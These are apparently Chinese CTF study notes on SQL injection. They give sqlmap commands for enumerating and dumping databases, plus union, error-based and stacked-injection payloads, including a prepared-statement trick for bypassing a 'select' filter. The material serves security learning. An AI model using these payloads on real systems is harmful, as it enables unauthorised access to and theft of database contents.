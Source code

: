 # SQL注入学习

### SQLmap用法

探测注入点：````sqlmap -u [可能出现注入点的链接地址] --forms````

获取数据库名：```` sqlmap -u [url] -dbs````

获取数据表名：````sqlmap -u [url] -D [数据库名] --tables````

获取字段名：````sqlmap -u [url] -D [数据库名] -T [数据表名] --columns````

获取数据库内内容： ````sqlmap -u [url] -D [数据库名] -T [数据表名] -C '字段1,字段2,字段3.....' --dump````

### 无法获取列名(报错注入获取列名)

利用union搭配别名子查询，在不知道字段的时候进行注入(即通过字段的顺序指定):

````sql
.... union select (select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from test)e limit 1 offset 3)f,(select 1)g,(select 1)h,(select 1)i;
````

通过报错注入获取列名:

````sql
.... and (select * from (select * from test as a join test as b using(已知列名1,已知列名2......)) as c);
````

原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。

### 堆叠注入(适用于过滤了select等且可以执行多语句的题目)

**过滤selecet获取数据库名(报错注入)**  `1' and extractvalue(1,concat('~',database()))#`

**堆叠注入获取表名**  `-1';use supersqli;show tables;#`  中间使用数据库名可以省略

**堆叠注入获取字段** 

````sql
-1';use supersqli;show columns from `1919810931114514`;#
````

中间使用数据库名可以省略

**堆叠注入执行任意语句**

````sql
-1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
````

使用sql的预处理将关键词拆开组合，绕过过滤